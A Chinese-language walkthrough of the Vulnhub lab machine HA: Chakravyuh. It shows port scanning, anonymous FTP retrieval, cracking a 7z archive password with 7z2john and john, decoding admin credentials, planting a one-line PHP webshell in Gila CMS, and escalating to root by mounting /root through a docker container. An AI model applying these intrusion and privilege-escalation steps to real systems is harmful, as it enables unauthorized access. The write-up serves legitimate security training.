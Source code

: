 ```yaml
---
layout: post
title: "chakravyuh walkthrough"
date: 2021-10-01
author: 2hanx
toc: true
categories: [Vulnhub]
tags: []
---
```


### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP                |
| ------------- | ----------------- |
| 本机（Win10） | `192.168.174.1`   |
| Kali          | `192.168.174.128` |
| Chakravyuh    | `192.168.174.130` |

### 扫描端口和版本信息

`nmap -A -p- 192.168.174.130`

```shell
┌──(root💀kali)-[~]
└─# nmap -A -p- 192.168.174.130                 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-01 09:46 EDT
Nmap scan report for 192.168.174.130
Host is up (0.00030s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c6:54:93:e8:1c:aa:f7:5f:d0:7d:6e:2e:df:ec:88:69 (RSA)
|   256 d4:b4:2e:96:4e:f7:f6:b7:83:a8:ef:06:6c:80:1d:25 (ECDSA)
|_  256 66:d0:5b:93:56:c5:7a:2e:60:90:c4:4e:4f:18:5a:bd (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HA: Chakravyuh
65530/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Oct 27  2019 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.174.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
MAC Address: 00:0C:29:56:8D:DA (VMware)
```

浏览器浏览主页，没什么特殊的地方，那么下一步使用 *dirb* 工具进行目录枚举看看，发现存在 *phpmyadmin* 路径。

![1]({{ '/chakravyuh/1.png' | prepend: site.url }})

之后信息收集发现 *phpmyadmin* 版本是 **4.6.6**，不过该版本不存在可利用的漏洞，此外进行过弱口令爆破也无果，因此web方面的渗透目前是走不通了。

之前的*nmap*扫描结果中发现服务器的**65530**端口开启了ftp服务，同时支持匿名登陆，并且已经看到了*pub*目录，那么接下来我们进去该目录下看看有什么东西。

```shell
┌──(root💀kali)-[~]
└─# ftp 192.168.174.130 65530
Connected to 192.168.174.130.
220 (vsFTPd 3.0.3)
Name (192.168.174.130:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Oct 27  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           247 Oct 27  2019 arjun.7z
226 Directory send OK.
ftp> get arjun.7z /root/arjun.7z
local: /root/arjun.7z remote: arjun.7z
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for arjun.7z (247 bytes).
226 Transfer complete.
247 bytes received in 0.00 secs (4.5300 MB/s)
ftp> quit
221 Goodbye.
```

该目录下是一个7z压缩包文件：*arjun.7z*，通过Kali 自带的 *7za* 工具进行解压时发现需要输入密码。之后尝试过 *rarcrack*进行爆破，但效果不尽人意。

### 压缩包密码爆破

使用 [7z2join.py](https://github.com/truongkma/ctf-tools/blob/master/John/run/7z2john.py) 脚本获取压缩包hash，使用 *john* 对hash爆破，得到压缩包密码：*family*。

```shell
┌──(root💀kali)-[~/gg]
└─# python2 7z2john.py arjun.7z > hash 
┌──(root💀kali)-[~/gg]
└─# cat hash    
arjun.7z:$7z$0$19$0$1122$8$6d5c2c86b140c3740000000000000000$1433678760$128$114$c96fd8f58ab9f87f9e21599caa51e9e23cac8b20833942d7d8af8564e82e0520cec2c1e5d40fe5156ce7189926bc39cc7675a77d21610e9e39b04abf781d908112eb0fe6e1d3f25df12bbcad6eaac7c11951e5e8e1fe4154a59b996f07e7ce5257c97756b85c2cbaa1ea9d1823ce3cc9dac5d286d92e6fd1f640f6742d517c4d
┌──(root💀kali)-[~/gg]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip [SHA256 128/128 AVX 4x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 14 for all loaded hashes
Cost 3 (compression type) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
family           (arjun.7z)
1g 0:00:00:00 DONE (2021-10-01 10:56) 1.020g/s 81.63p/s 81.63c/s 81.63C/s samantha..family
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

之后使用 *7za* 工具解压压缩包，命令是：`7za x arjun.7z `。解密出来的 *secret.txt* 内容是：`Z2lsYTphZG1pbkBnbWFpbC5jb206cHJpbmNlc2E=`，看到这个字符串的第一反应就是 base64加密，事实也是base64加密，对其解密我们得到的明文是：`gila:admin@gmail.com:princesa`。看起来像是用户名和密码，不过经过尝试后发现是 */gila* 路径下登录页面中的账户名和密码。

![2]({{ '/chakravyuh/2.png' | prepend: site.url }})

使用 `admin@gmail.com:princesa`用户名和密码进行登录，在后台中我们看到gila cms的版本号是：**1.10.9**，并且该版本存在[LFI漏洞](https://www.exploit-db.com/exploits/47407)，此外也可以编辑php文件。

### Getshell

将一句话木马插入任意php文件，用蚁剑连接即可getshell。

### 提权

在进行一系列的主机信息收集后未找到可提权的程序，不过在查看当前用户组时发现该用户也属docker组。此外也知道运行docker基本都是需要root权限，因此这里我们可以新建一个容器，将本机的*/root*目录挂载在容器里，这样就可以在容器里看到*/root*目录下的内容了，最后就可以得到flag。

```shell
www-data@ubuntu:/tmp$ docker images
docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
alpine              latest              965ea09ff2eb        23 months ago       5.55MB
www-data@ubuntu:/tmp$ docker run -v /root:/mnt -it 965
docker run -v /root:/mnt -it 965
the input device is not a TTY
www-data@ubuntu:/tmp$ docker run -v /root:/mnt -i 965
docker run -v /root:/mnt -i 965
ls
bin
dev
etc
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cd /mnt
ls
final.txt
cat final.txt

                                   ,╓,
                                   ╢▀╢
                                   ╟Ü╡
                                   ▓Ü╢
              ,╓,              ,,╓▄▓▓╣▄╓,,              ,╓,
              ║▓╙╣        ╓g▓▓╣╣╣╣╣╣▓╣╣╣╣╣╣▓▓æw        ╣╩║▓
                "▓╣ß╗,,g▓╣╣╣╣▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓╣╣╣╣▓W,,╥▓▓╢"
                  ▓▌▓▐╣╣╣▓▓▓╩▀'    ▓Ü▒     ╙╩▓▓▓╣╣╣▌▓]Ñ
                  ╒▓╣╣▓▓▓▀        /▓W║m        ╙▓▓▓╣╣▓╗
                 φ╣╣╣▓▓╩▓║@╖,     ╘▓µ╣╛     ,╓@▓║╜▓▓▓╣╣▓
                ▓╣╣▓▓▓   ▓U▓╓@     ▓Ü▒     Æ▓▓H╢`  ╚▓▓╣╣▓
               ▓╣╣▓▓▀     ╙▓▓╣╣,   ╠Ü║   ,▓▓╢Ñ╜     ╙▓▓╣╣▓
              ╒╣╣╣▓▓         ╙▓╬▓▓▓║╢╢▓▓▓▓║"         ╟▓╣╣╣▌
              ▓╣╣▓▓           Æ▓║╣▒▄▓▓▄╢╢▓▓           ▓▓╣╣▓
     ╔▓║╣]¢║╢╟▓▓╣▌╣]║╢╜φ╙╢║║¢U╣▒▒█▓▓▌██▌║Ü╣H¢╬▓▓▓φ▓▓▓¢╢▐╣▓▓▓▓▓@[╣║▓W
      "╙╙ '╙▀╝▓╣╣▓╣'╙╙▀Ü▓▀╙└" ▓▓▒╫███▓█▌╢╫╣'`""╙╩∩╝╙"`▓▓╣╣▓╙╜"` ╙╙"
              ╟╣╣╣▓L          ]▓▓║Ñ▒▒╣@╢▓▓L          ,▓▓╣╣▓
               ╣╣╣▓▓        ╓@╣▓"▀▓▓▓▓▓▀"║╣▓╦,       ▓▓╣╣╣"
               ╙╣╣╣▓▓    ╔╟║╠▓╜    ╟Ü▓    ╙╣╢▓▓φ    ▓▓╣╣╣▌
                ╙╣╣╣▓▓╖ g╢▓▓@"     ╢Ü╣      V╢║▓▓ ╓▓▓╣╣╣▀
                 "▓╣╣▓▓▓@▀        ╙╠▓▓$        ╙▒▓▓▓╣╣▓┘
                   ║▓▓╣▓▓▓&╖       ╣Ü╣`      ,φ▓▓▓╣▓▓▓r
                 ,╣╠▓Ç▓╣╣╣▓▓▓▓&æ╖,,║Ü▓,,╓g&▓▓▓▓╣╣╣▓Ü╢║▓ç
              ,@N╠╝"    ╙▓▓╣╣╣╣▓▓▓▓▓▓▓▓▓▓▓╣╣╣╣╣▓▀    `╨╣╝@,
              ▓▓║╜          "▀▀▓▓╣╣▓▓▓╣╣▓▓▀▀╙          ╙╣▓▓
    

!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/rajchandel/
Kavish Tyagi : https://twitter.com/Tyagi_kavish_


+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |H|A|C|K|I|N|G|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
____________________________________

```



### 总结

1. docker的执行需要root权限，可通过挂载目录的形式来读取高权限的内容，前提是当前用户属docker组
2. 在对7z压缩包进行密码爆破时，使用 7z2john.py 脚本先获取文件hash再爆破
